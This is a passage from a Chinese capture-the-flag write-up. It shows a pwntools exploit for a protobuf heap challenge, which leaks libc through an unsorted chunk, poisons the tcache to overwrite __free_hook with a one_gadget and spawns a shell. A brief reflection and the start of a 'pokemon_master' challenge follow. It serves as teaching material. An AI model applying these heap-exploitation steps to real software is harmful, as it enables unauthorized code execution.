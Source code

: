 ```python
    msg.actionid = 3
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


def edit(idx, content):
    msg = pb.Message_request()
    msg.id = idx
    msg.sender = b'admin'
    msg.len = 1
    msg.content = content
    msg.actionid = 4
    r.sendafter(b'TESTTESTTEST!\n', msg.SerializeToString())


# gdb.attach(r, 'b *$rebase(0x1D7B)')
# pause()

add(0, 0x500)
add(1, 0x18)
add(2, 0x480)  # unpack会申请堆地址，所以第一个unsortedchunk会被分割，用原本的ptr中存的地址是打印不出来libc地址的。虽然会打印0x500个，但是为了方便，还是再申请一个unsortedchunk来泄露libc地址。
add(3, 0x18)
delete(0)
delete(2)
show(2)

libc_base = u64(r.recv(6).ljust(8, b'\x00'))-0x1ECFF0
log.info('libc_base:'+hex(libc_base))

add(5, 0x70)
add(6, 0x70)
delete(5)
delete(6)
edit(6, p64(libc_base+libc.symbols['__free_hook']))

add(7, 0x70)
add(8, 0x70, p64(libc_base+0xe3afe))

delete(7)  # getshell

r.interactive()
```

### 0x05 总结
其实讲真的，这道题的堆风水的布置就是小儿科级别的。protobuf逆向也并没有这么困难，只是对着模板套公式的罢了。对于一个新生赛而言，尽管是大二的pwn手，这个知识点也算是比较偏的考点（虽然近些年常见于各个大型比赛比如ciscn），是一个相对较新的知识点。在一场时间有限的比赛中开始学习并应用一个新的知识点，非常考验选手的检索、理解能力和耐心。但是如果只是看到题目就开始畏难，就算搜到了详细的教程也不愿意去尝试，那这道题从一开始就可以判负了。

虽然题目很简单，也不是什么大型比赛，但是也希望大家能从中学到一点东西。

## pokemon_master
:::info
宝可梦大师！  
你是纪南镇的一名宝可梦新手，你已经达到了可以外出探险的年纪，请外出探险，成为伟大的冒险家吧！传闻外面有很强大的神兽，击败它会获得神器。
